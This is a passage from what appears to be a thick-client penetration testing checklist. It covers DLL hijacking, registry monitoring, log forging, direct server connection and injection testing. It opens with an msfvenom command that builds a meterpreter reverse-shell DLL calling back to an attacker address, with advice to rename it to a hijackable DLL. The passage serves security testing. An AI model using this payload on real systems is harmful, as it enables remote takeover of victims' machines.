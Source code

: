 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil.dll
```

This will generate a Malicious DLL named **evil.dll**. You can **RENAME** it with the targeted DLL name and check if you’re able to get a meterpreter shell.

**Examples :**

* [https://abhigowdaa.medium.com/reverse-shell-using-dll-hijacking-vulnerability-8030eb74290](https://abhigowdaa.medium.com/reverse-shell-using-dll-hijacking-vulnerability-8030eb74290)
* [https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e](https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e)

## Server-Side Testing

#### Improper Error Handling

* Is there any errors displayed ?
* What information is reported back to the user ?

### Registry Monitoring

Some applications store usernames, passwords, or other sensitive information in the windows registry.

* **Tools :**
  * [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/), from Sysinternals (to check the application operations)

### Log Forging

If the application is maintaining logs then attempt to tamper log entries with malicious out-of-band payloads, spoof data, append large data to file, etc.

* Change the current time to any random value of the past or future and check if the logs recorded by the application reflect the modified value of time and date.
* **Tools :**
  * Echo Mirage
  * Burp Suite (as a web proxy)
  * **Non HTTP Apps**
    * TCP Relay
    * Wireshark
    * Java Snoop

### Try connecting directly to the server

Once you find the server’s IP address then try to directly connect to it and interact. If successful then we have bypassed validations and constraints enforced by the thick client application.

### Layer 7 Attacks

* Injections
  * SQLi
  * LDAP
  * XML
  * OS
